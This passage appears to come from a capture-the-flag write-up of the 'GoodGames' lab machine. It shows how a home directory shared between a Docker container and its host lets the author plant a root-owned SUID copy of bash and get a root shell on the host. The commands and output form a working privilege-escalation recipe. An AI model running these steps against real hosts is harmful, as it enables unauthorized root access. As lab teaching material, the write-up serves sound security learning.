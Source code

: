 
The file sizes and times are exactly the same (almost - I cannot explain why
three of the files are off by an hour). If I create a file on the host:

    
    
    augustus@GoodGames:~$ touch from_host
    

It shows up on the container:

    
    
    root@3a453ab39d3d:/home/augustus# ls -l from_host 
    -rw-r--r-- 1 1000 1000 0 Feb 22 15:16 from_host
    

And it works the other way:

    
    
    root@3a453ab39d3d:/home/augustus# touch from_container
    
    
    
    augustus@GoodGames:~$ ls -l from_container 
    -rw-r--r-- 1 root root 0 Feb 22 15:16 from_container
    

Interestingly, the file created from the container is owned by root, and the
host treats it as it’s root!

### Shell

I’ll copy `/bin/bash` into augustus’ home directory on the host. It’s
important to use `bash` from the host (I’ll cover why in Beyond Root).

    
    
    augustus@GoodGames:~$ cp /bin/bash .
    

Then in the container, I’ll change the owner to root, and set the permissions
to be SUID:

    
    
    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwxr-xr-x 1 1000 1000 1234376 Feb 22 15:25 bash
    root@3a453ab39d3d:/home/augustus# chown root:root bash 
    root@3a453ab39d3d:/home/augustus# chmod 4777 bash 
    root@3a453ab39d3d:/home/augustus# ls -l bash
    -rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash
    

Back on GoodGames, the changes are reflected:

    
    
    augustus@GoodGames:~$ ls -l bash 
    -rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash
    

Running it (with `-p` so that privileges aren’t dropped) returns a root shell:

    
    
    augustus@GoodGames:~$ ./bash -p
    bash-5.1# 
    